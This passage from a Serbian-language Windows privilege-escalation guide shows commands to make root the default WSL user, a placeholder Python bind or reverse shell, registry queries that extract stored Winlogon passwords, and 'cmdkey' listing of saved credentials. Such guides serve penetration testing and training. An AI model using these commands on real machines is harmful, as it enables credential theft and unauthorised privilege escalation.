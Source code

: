 ```bash
wsl whoami
./ubuntun1604.exe config --default-user root
wsl whoami
wsl python -c 'BIND_OR_REVERSE_SHELL_PYTHON_CODE'
```

Da biste lako pokrenuli bash kao root, možete probati `--default-user root`

Možete istražiti `WSL` fajl sistem u folderu `C:\Users\%USERNAME%\AppData\Local\Packages\CanonicalGroupLimited.UbuntuonWindows_79rhkp1fndgsc\LocalState\rootfs\`

## Windows Kredencijali

### Winlogon Kredencijali

```bash
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr /i "DefaultDomainName DefaultUserName DefaultPassword AltDefaultDomainName AltDefaultUserName AltDefaultPassword LastUsedUsername"

#Other way
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultDomainName
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultUserName
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultPassword
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v AltDefaultDomainName
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v AltDefaultUserName
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v AltDefaultPassword
```

### Menadžer akreditacija / Windows trezor

Sa [https://www.neowin.net/news/windows-7-exploring-credential-manager-and-windows-vault](https://www.neowin.net/news/windows-7-exploring-credential-manager-and-windows-vault)\
Windows trezor čuva korisničke akreditacije za servere, veb sajtove i druge programe za koje **Windows može automatski da prijavi korisnike**. Na prvi pogled, ovo može izgledati kao da korisnici mogu da sačuvaju svoje Facebook akreditacije, Twitter akreditacije, Gmail akreditacije itd., kako bi se automatski prijavljivali putem pretraživača. Ali to nije tako.

Windows trezor čuva akreditacije koje Windows može automatski da koristi za prijavljivanje korisnika, što znači da svaka **Windows aplikacija koja zahteva akreditacije za pristup resursu** (serveru ili veb sajtu) \*\*može koristiti ovaj Menadžer akreditacija i Windows trezor i koristiti dostavljene akreditacije umesto što korisnici stalno unose korisničko ime i lozinku.

Osim ako aplikacije ne interaguju sa Menadžerom akreditacija, ne mislim da je moguće da koriste akreditacije za određeni resurs. Dakle, ako vaša aplikacija želi da koristi trezor, nekako bi trebalo **da komunicira sa menadžerom akreditacija i zatraži akreditacije za taj resurs** iz podrazumevanog trezora za čuvanje.

Koristite `cmdkey` da biste prikazali sačuvane akreditacije na mašini.

```bash
cmdkey /list
Currently stored credentials:
Target: Domain:interactive=WORKGROUP\Administrator
Type: Domain Password
User: WORKGROUP\Administrator
```
